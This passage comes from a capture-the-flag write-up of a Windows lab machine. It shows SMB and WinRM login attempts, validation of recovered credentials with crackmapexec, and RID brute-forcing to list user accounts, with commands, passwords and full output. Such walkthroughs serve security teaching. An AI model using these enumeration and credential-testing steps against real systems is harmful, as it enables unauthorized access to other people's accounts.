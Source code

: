 The second doesn’t seem to be a real password, but we have something. The login page ask for a email in the user field, so the previous users can’t be use.

Also, `evil-winrm` will not be useful:

```console
$ evil-winrm -i 10.10.10.149 -u rout3r -p stealth1agent
$ evil-winrm -i 10.10.10.149 -u rout3r -p '$uperP@ssword'
```

Some tries wouldn’t result:

```console
$ rpcclient -U rout3r 10.10.10.149                       
	Password for [WORKGROUP\rout3r]:
	Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE

$ smbclient -L  \\\\10.10.10.149\\ -U rout3r
	Password for [WORKGROUP\rout3r]:
	session setup failed: NT_STATUS_LOGON_FAILURE
```

With the `stealth1agent` password we can list the smb:

```console
$ smbclient -L  \\\\10.10.10.149\\ -U Hazard                
Password for [WORKGROUP\Hazard]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.149 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```

We can check the credentials are valid:

```console
$ crackmapexec smb 10.10.10.149 -u Hazard -p 'stealth1agent'
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent
```

We can try to bruteforcing the RID:

```console
$ crackmapexec smb 10.10.10.149 -u Hazard -p 'stealth1agent' --rid-brute
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Brute forcing RIDs
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```
